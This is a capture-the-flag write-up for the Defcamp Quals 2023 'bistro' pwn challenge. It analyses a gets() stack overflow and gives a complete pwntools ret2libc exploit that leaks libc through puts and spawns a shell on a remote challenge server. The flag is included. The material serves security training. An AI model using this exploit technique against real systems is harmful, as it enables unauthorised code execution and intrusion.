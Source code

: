 ```yaml
---
title: bistro
date: 2023-10-22T09:56:31+03:00
description: Writeup for bistro [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Maybe you can get a free menu!!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec restaurant
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		2		restaurant
```
Partial RELRO and no PIE. Great! Let's decompile:

```c
undefined8 custom(void)
{
  char local_78 [112];
  
  printf("Choose what you want to eat:");
  gets(local_78);
  gets(local_78);
  return 0;
}

undefined8 main(EVP_PKEY_CTX *param_1)
{
  int local_c;
  
  init(param_1);
  puts("==============================");
  puts("              MENU             ");
  puts("==============================");
  puts("1. Chessburger...............2$");
  puts("2. Hamburger.................3$");
  puts("3. Custom dinner............10$");
  printf(">> ");
  __isoc99_scanf(&DAT_0040098c,&local_c);
  if (local_c == 2) {
    puts("2. Hamburger.................3$");
  }
  else {
    if (local_c == 3) {
      custom();
    }
    else if (local_c == 1) {
      puts("1. Chessburger...............2$");
      return 0;
    }
    puts("Wrong choice");
  }
  return 0;
}
```
We see an obvious buffer overflow in ``custom``. We simply need to ROP into leaking the libc addresses with puts.


### Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./restaurant")
target = remote("35.198.129.115", 31756)

# Get addresses with ROPGadget
pop_rdi = p64(0x00000000004008a3)
ret = p64(0x000000000040059e) # for aligning stack to 16-bytes again for system call

# Addresses from the binary
main_addr = p64(0x0040072a)
puts_plt = p64(0x004005b0)
puts_got = p64(0x00601018)

# Leak puts address
target.sendline(b"3")
payload = b"a" * 0x78 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
print(target.recvuntil(b">>"))
puts_leak = u64(target.recvline().strip().split(b':')[1].ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))

# Find the libc version at some point here manually

system_addr = p64(puts_leak - 0x31550) # offset found in libc database
print(system_addr)

# Get offset to /bin/sh from libc database
sh_addr = p64(puts_leak + 0x13337a)

payload = b"a" * 0x78 + ret + pop_rdi + sh_addr + system_addr

# Pop a shell, baby
target.sendline(payload)
target.interactive()
```

#### Flag

```CTF{33be4238b68642a4c3f97d10cfa034764e0b6d9707d6970f581200e2b7bcbfc0}```
